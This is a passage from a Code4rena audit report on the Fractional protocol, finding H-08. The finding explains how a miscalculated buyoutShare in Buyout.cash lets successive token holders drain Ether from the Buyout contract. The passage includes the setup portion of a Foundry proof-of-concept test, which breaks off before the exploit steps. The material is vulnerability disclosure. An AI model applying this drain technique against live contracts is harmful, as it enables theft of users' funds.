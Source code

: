## [[H-08] Cash-out from a successful buyout allows an attacker to drain Ether from the `Buyout` contract](https://github.com/code-423n4/2022-07-fractional-findings/issues/440)
_Submitted by berndartmueller, also found by 0xA5DF, 0xsanson, 0xSky, cccz, cryptphi, ElKu, hansfriese, jonatascm, kenzo, Kumpa, minhquanym, s3cunda, shenwilly, smiling&#95;heretic, Treasure-Seeker, TrungOre, and zzzitron_

The function `Buyout.cash` allows a user to cash out proceeds (Ether) from a successful vault buyout.

However, due to how `buyoutShare` is calculated in `Buyout.cash`, users (fractional vault token holders) cashing out would receive more Ether than they are entitled to. The calculation is wrong as it uses the initial Ether balance stored in `buyoutInfo[_vault].ethBalance`. Each consecutive cash-out will lead to a user receiving more Ether, ultimately draining the Ether funds of the `Buyout` contract.

### Proof of Concept

Copy paste the following test case into `Buyout.t.sol` and run the test via `forge test -vvv --match-test testCashDrainEther`:

The test shows how 2 users Alice and Eve cash out Ether from a successful vault buyout (which brought in `10 ether`). Alice and Eve are both entitled to receive `5 ether` each. Alice receives the correct amount when cashing out, however, due to a miscalculation of `buyoutShare` (see [#L268-L269](https://github.com/code-423n4/2022-07-fractional/blob/8f2697ae727c60c93ea47276f8fa128369abfe51/src/modules/Buyout.sol#L268-L269)), Eve can cash-out `10 ether` from the `Buyout` contract.

```solidity
function testCashDrainEther() public {
  /// ==================
  /// ===== SETUP =====
  /// ==================

  deployBaseVault(alice, TOTAL_SUPPLY);
  (token, tokenId) = registry.vaultToToken(vault);
  alice.ferc1155 = new FERC1155BS(address(0), 111, token);
  bob.ferc1155 = new FERC1155BS(address(0), 222, token);
  eve.ferc1155 = new FERC1155BS(address(0), 333, token);

  buyout = address(buyoutModule);
  proposalPeriod = buyoutModule.PROPOSAL_PERIOD();
  rejectionPeriod = buyoutModule.REJECTION_PERIOD();

  vm.label(vault, "VaultProxy");
  vm.label(token, "Token");

  setApproval(alice, vault, true);
  setApproval(alice, buyout, true);
  setApproval(bob, vault, true);
  setApproval(bob, buyout, true);
  setApproval(eve, vault, true);
  setApproval(eve, buyout, true);

  alice.ferc1155.safeTransferFrom(
      alice.addr,
      bob.addr,
      1,
      6000,
      ""
  );

  alice.ferc1155.safeTransferFrom(
      alice.addr,
      eve.addr,
      1,
```